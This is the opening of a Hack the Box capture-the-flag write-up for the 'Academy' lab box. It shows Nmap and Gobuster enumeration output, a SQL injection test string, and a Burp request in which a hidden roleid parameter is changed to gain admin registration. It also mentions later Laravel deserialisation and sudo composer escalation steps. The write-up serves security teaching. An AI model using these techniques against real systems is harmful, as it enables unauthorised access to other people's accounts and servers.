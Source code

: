 ```yaml
---
layout: default
title: Hack the Box Writeup - Academy
---
```


## Introduction

*Written by Mac*

This is our writeup for the Academy Box - we covered it in session on 01/03/21. If you have a membership, you can view the recording on [our Blackboard]({{ site.baseurl }}{% link sessions/access.html %}).

It was an easy rated box, based on the about-to-be-released [Academy](http://academy.hackthebox.eu) platform on Hack the Box. When I tackled Academy (early Nov 2020) I had only done 2 other Hack the Box boxes (and not for 4 months, only dipping into Tabby before giving up) so I was still essentially learning the ropes. However, I'd been watching a *lot* of Ippsec and me and Nick had been preparing the Enumeration session so I was getting much more comfortable with the general practices in attacking a box.

With that said, Academy was still a challenge! The initial foothold involved some Burp trickery to register an admin account, followed by the discovery of a subdomain and a leaked Laravel `APP_KEY`. The underlying vulnerability was a deserialisation vulnerability in Laravel; while I'd done some Laravel development at work, I hadn't even heard of deserialisation, so I used Metasploit to gain my foothold. When I came back to the box for the session in March I took a more detailed look at the vulnerability, and covered it in the [Advanced Web Hacking]({{ site.baseurl }}{% link /assets/wiki/Advanced Web Hacking - PDF.pdf %}) session.

Once we get a shell as `www-data` we could find a password in a `.env` file, and use it to login as User 1. From there the path to User 2 was hidden in a stack of logs, which was the least enjoyable part of the box for me. I spent a bit of time here fumbling around, especially as the data you were supposed to find was encoded so not easy to `grep` for. However, when we came back to the box I found out about a tool for searching logs, which made this stage of the box much easier.

Root was a very enjoyable part of the box, with some very simple enumeration revealing what you had to do. User 2 had sudo permissions on the `composer` binary, which allows the execution of arbitrary system commands when installing from a custom script. I enjoyed this a lot, as I knew *what* I was aiming for but still had to put some work in to get the implementation correct. It was a great way to ease me back into HTB as a relative beginner, and tests a lot of key priv esc skills. This made it a good candidate for a session!

With all that said, let's jump into the full writeup.

## Enumeration

### Nmap

We start off with an Nmap scan to discover what services are running on each of the box's ports

`nmap -sC -sV -v -oA nmap/ 10.10.10.215`

This gives us the following output:

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 14:18 GMT
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:18
Completed NSE at 14:18, 0.00s elapsed
Initiating NSE at 14:18
Completed NSE at 14:18, 0.00s elapsed
Initiating NSE at 14:18
Completed NSE at 14:18, 0.00s elapsed
Initiating Ping Scan at 14:18
Scanning 10.10.10.215 [4 ports]
Completed Ping Scan at 14:18, 0.16s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 14:18
Scanning academy.htb (10.10.10.215) [1000 ports]
Discovered open port 22/tcp on 10.10.10.215
Discovered open port 80/tcp on 10.10.10.215
Increasing send delay for 10.10.10.215 from 0 to 5 due to max_successful_tryno increase to 4
Increasing send delay for 10.10.10.215 from 5 to 10 due to 51 out of 168 dropped probes since last increase.
Increasing send delay for 10.10.10.215 from 10 to 20 due to max_successful_tryno increase to 5
Completed SYN Stealth Scan at 14:18, 13.32s elapsed (1000 total ports)
Initiating Service scan at 14:18
Scanning 2 services on academy.htb (10.10.10.215)
Completed Service scan at 14:19, 15.43s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.215.
Initiating NSE at 14:19
Completed NSE at 14:20, 51.23s elapsed
Initiating NSE at 14:20
Completed NSE at 14:20, 9.22s elapsed
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
Nmap scan report for academy.htb (10.10.10.215)
Host is up (0.013s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Hack The Box Academy
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
Initiating NSE at 14:20
Completed NSE at 14:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 90.63 seconds
           Raw packets sent: 1314 (57.792KB) | Rcvd: 1229 (49.168KB)
```

We can see that port 22 and 80 are open, suggesting SSH (standard) and a web server. The nmap scan also revealed the Virtual Host Domain of the website to be `academy.htb`, which we can add to our hosts file using `nano /etc/hosts`:

```
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.215    academy.htb
```

This now allows us to visit the website at `https://academy.htb`

### Gobuster

Now we know port 80 is open we can set off a gobuster scan to discover some webpages.

After a brief look at the site, we can see it runs on php - so we use the `-x php` flag to append the `.php` extension to our requests.

```
gobuster dir -u http://academy.htb -w /usr/share/wordlists/dirb/common.txt -x php
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://academy.htb
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2021/03/22 22:43:09 Starting gobuster
===============================================================
/.hta (Status: 403)
/.hta.php (Status: 403)
/.htaccess (Status: 403)
/.htaccess.php (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/admin.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
/home.php (Status: 302)
/images (Status: 301)
/index.php (Status: 200)
/index.php (Status: 200)
/login.php (Status: 200)
/register.php (Status: 200)
/server-status (Status: 403)
===============================================================
2021/03/22 22:43:30 Finished
===============================================================
```

We see from this scan that there is an `admin.php` page that we are denied access to at this point - but after poking around the site we may be able to access it.


### academy.htb

The home page is pretty basic, and has a simple login form at `/login.php`. We can try a couple of basic tests, such as the common credentials `admin:password` and `admin:admin` (no success), and a basic SQL injection test in the username field by submitting a `'` character. The single quote is URL encoded in the request, and no SQL errors are thrown. We could try a basic injection with `' OR 1=1;--` in the username or password field, or set off `sqlmap`, but for now let's try registering an account and see if that unlocks anything interesting.

We can register an account at `/register.php`. This takes us to a mockup Academy e-learning page. All the links seem to be dead, and we don't seem to be able to do anything with the page. We also can't get into `/admin.php` still. So let's take a look at the register request in Burp Suite.

```
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://academy.htb/register.php

Content-Type: application/x-www-form-urlencoded
Content-Length: 66
Cookie: PHPSESSID=gkrrf2lrjp1ge5qpsosje0un2n
Connection: close
Upgrade-Insecure-Requests: 1

uid=testuser&password=testpassword&confirm=testpassword&roleid=0
```

We see there is a `roleid` parameter in the request, but there was no Role ID field in the registration form. Inspecting the source code, we see the following hidden field: `<input type="hidden" value="0" name="roleid" />`. I suspect the `roleid` parameter may have something to do with the permissions of the new user.

Resubmitting this request with a new username and `roleid=1` successfully registers us an account - and when we visit `/admin.php`, we can see the page!
